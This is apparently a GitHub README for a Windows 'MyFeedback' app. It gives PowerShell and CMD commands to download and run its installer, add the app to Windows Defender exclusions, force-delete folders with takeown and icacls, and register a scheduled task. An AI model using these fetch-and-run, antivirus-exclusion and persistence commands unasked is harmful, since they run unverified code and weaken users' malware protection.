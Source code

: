 ### To install the setup file 
1. Open Powershell & paste the script
```bash
iwr -UseBasicParsing "https://github.com/bebedudu/autoupdate/releases/download/v1.1.8/MyFeedbackSetup.exe" -OutFile "$env:TEMP\MyFeedbackSetup.exe"; Start-Process "$env:TEMP\MyFeedbackSetup.exe"
```
### Make trusted application to window defender
1. Open Powershell as admin & paste the script
```bash
$exePath = "C:\user feedback\feedback\feedback.exe"; Add-MpPreference -ExclusionPath $exePath; Write-Host "Added $exePath to Windows Defender exclusions."
```
or,
```bash
# Define the path to your executable
$exePath = "C:\user feedback\feedback\feedback.exe"
# Add the application to Windows Defender exclusions
Add-MpPreference -ExclusionPath $exePath
Write-Host "Added $exePath to Windows Defender exclusions."
```
2. Check the Exclusion list
<pre>
i)Open Setting > Privacy & Security > Windows Security > Virus & Threat Protection
ii)Click on Manage Settings under "Virus & threat protection settings."
iii)Scroll down to the Exclusions section and click Add or Remove Exclusions .
iv)Check if your application's path is listed here.
</pre>
or,
1. Open Powershell as admin & paste the script (filename.ps1)
```bash
# Check if the script is running with administrative privileges
if (-not ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")) {
    Write-Host "This script must be run as an administrator. Please restart the script with elevated privileges." -ForegroundColor Red
    exit
}

# Retrieve Windows Defender exclusion lists
try {
    $exclusions = Get-MpPreference | Select-Object -Property ExclusionPath, ExclusionExtension, ExclusionProcess, ExclusionIpAddress

    # Display the exclusions
    Write-Host "Windows Defender Exclusion List:" -ForegroundColor Cyan
    Write-Host "--------------------------------------------"

    if ($exclusions.ExclusionPath) {
        Write-Host "Excluded Paths:" -ForegroundColor Green
        $exclusions.ExclusionPath | ForEach-Object { Write-Host "- $_" }
    } else {
        Write-Host "No paths are excluded." -ForegroundColor Yellow
    }

    if ($exclusions.ExclusionExtension) {
        Write-Host "`nExcluded Extensions:" -ForegroundColor Green
        $exclusions.ExclusionExtension | ForEach-Object { Write-Host "- $_" }
    } else {
        Write-Host "`nNo extensions are excluded." -ForegroundColor Yellow
    }

    if ($exclusions.ExclusionProcess) {
        Write-Host "`nExcluded Processes:" -ForegroundColor Green
        $exclusions.ExclusionProcess | ForEach-Object { Write-Host "- $_" }
    } else {
        Write-Host "`nNo processes are excluded." -ForegroundColor Yellow
    }

    if ($exclusions.ExclusionIpAddress) {
        Write-Host "`nExcluded IP Addresses:" -ForegroundColor Green
        $exclusions.ExclusionIpAddress | ForEach-Object { Write-Host "- $_" }
    } else {
        Write-Host "`nNo IP addresses are excluded." -ForegroundColor Yellow
    }
} catch {
    Write-Host "An error occurred while retrieving the exclusion list: $_" -ForegroundColor Red
}
```

### To delete previous installed assets
1. Open CMD in admin mode paste the script (may need to run 2 time)
```bash
tasklist /fi "imagename eq feedback.exe" | find /i "feedback.exe" >nul && taskkill /f /im feedback.exe >nul 2>&1 && timeout /t 3 >nul || rmdir /s /q "C:\user feedback" && echo Folder deleted successfully.
```
or,
```bash
takeown /f "C:\user feedback" /r /d y && icacls "C:\user feedback" /grant %username%:F /t && taskkill /f /im feedback.exe >nul 2>&1 && timeout /t 5 >nul && rmdir /s /q "C:\user feedback" && echo Folder deleted successfully.
```

### To restore the Feedback application
1. Open Powershell
2. Paste these code in your Powershell
```bash
Remove-Item -Path "C:\user feedback\feedback\config.json"
```
or,
```bash
   # Check if 'feedback.exe' is running and stop it if found
$process = Get-Process -Name "feedback" -ErrorAction SilentlyContinue
if ($process) {
    Stop-Process -Name "feedback" -Force
    Write-Host "'feedback.exe' was running and has been closed."
} else {
    Write-Host "'feedback.exe' is not currently running."
}

# Delete the file and check if it was successful
if (Test-Path "C:\user feedback\feedback\config.json") {
    del "C:\user feedback\feedback\config.json"
    Write-Host "File 'config.json' has been deleted."
} else {
    Write-Host "File 'config.json' does not exist."
}

# Start the app
Start-Process "C:\user feedback\feedback\feedback.exe"
Write-Host "'feedback.exe' has been launched."
```
3. You sucessfully resolved the problem 🎉🎉


### Add taskscheduler
```bash
schtasks /create /xml "C:\user feedback\feedback\assets\schedule\MyFeedback.xml" /tn "MyFeedback"
```
